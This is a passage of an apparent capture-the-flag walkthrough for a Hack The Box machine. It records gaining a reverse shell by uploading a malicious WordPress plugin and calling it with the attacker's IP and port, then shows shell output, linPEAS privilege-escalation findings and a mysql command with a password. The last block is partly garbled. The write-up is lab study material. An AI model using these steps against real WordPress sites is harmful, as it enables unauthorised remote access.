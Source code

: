 Used this to create a reverse shell: https://github.com/kylepott/Conwell-Quotes

Uploaded the plugin, started listener for 1234 and typed this into browser:

```
http://spectra.htb/main/wp-content/plugins/conwell/error.php?ip=10.10.14.42&port=1234
```

And we have a shell, but we are not user:

```
$ ls -al
total 36
drwxr-xr-x 5 katie katie 4096 Feb  2 15:57 .
drwxr-xr-x 8 root  root  4096 Feb  2 15:55 ..
lrwxrwxrwx 1 root  root     9 Feb  2 15:55 .bash_history -> /dev/null
-rw-r--r-- 1 katie katie  127 Dec 22 05:46 .bash_logout
-rw-r--r-- 1 katie katie  204 Dec 22 05:46 .bash_profile
-rw-r--r-- 1 katie katie  551 Dec 22 05:46 .bashrc
drwx------ 3 katie katie 4096 Jan 15 15:55 .pki
drwx------ 2 katie katie 4096 Feb 10 06:10 .ssh
drwxr-xr-x 2 katie katie 4096 Jan 15 15:55 log
-r-------- 1 katie katie   33 Feb  2 15:57 user.txt
$ cat user.txt
cat: user.txt: Permission denied
$ id
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
$ 

```

Linpeas time, enter bash before running since SELinux is wacky on this box:

```
[+] Sudo version
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version
Sudo version 1.8.32

```

Why am I running linPEAS I can access that database and extract hashes from there.

```
mysql -u administrator -p devteam01 -e 'show databases;'
```

Could still not connect, maybe because I need to be chronos user:

```
[+] Binary processes permissions
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#processes
-rwxr-xr-x 1 root    root      551984 Dec 22 05:46 /bin/bash
lrwxrwxrwx 1 root    root           4 Dec 22 05:46 /bin/sh -> dash
-rwxr-xr-x 1 root    root      611344 Jan 15 15:34 /opt/tpm1/sbin/attestationd
-rwxr-xr-x 1 root    root      480416 Jan 15 15:34 /opt/tpm1/sbin/chapsd
-rwxr-xr-x 1 root    root     1546944 Jan 15 15:34 /opt/tpm1/sbin/cryptohomed
-rwxr-xr-x 1 root    root      218472 Jan 15 15:33 /opt/tpm1/sbin/tpm_managerd
-r-xr-xr-x 1 root    root      217064 Dec 22 05:54 /sbin/dhcpcd
-rwxr-xr-x 1 root    root      131408 Dec 22 05:54 /sbin/init
-rwxr-xr-x 1 root    root      134840 Jan 15 15:30 /sbin/minijail0
-rwxr-xr-x 1 root    root       88192 Jan 15 15:33 /usr/bin/anomaly_detector
-rwxr-xr-x 1 root    root       49496 Jan 15 15:33 /usr/bin/btdispatch
-rwxr-xr-x 1 root    root      901528 Dec 22 05:45 /usr/bin/coreutils
-rwxr-xr-x 1 root    root      745448 Jan 15 15:32 /usr/bin/cros_healthd
-rwxr-xr-x 1 root    root       26696 Dec 22 05:52 /usr/bin/logger
-rwxr-xr-x 1 root    root      455712 Jan 15 15:31 /usr/bin/memd
-rwxr-xr-x 1 root    root      240072 Jan 15 15:32 /usr/bin/metrics_daemon
-rwxr-xr-x 1 root    root      391256 Jan 15 15:34 /usr/bin/patchpaneld$ dir
VirtualBox	     broadcom	  eeti	  neverware  tpm2
autologin.conf.orig  displaylink  google  tpm1
```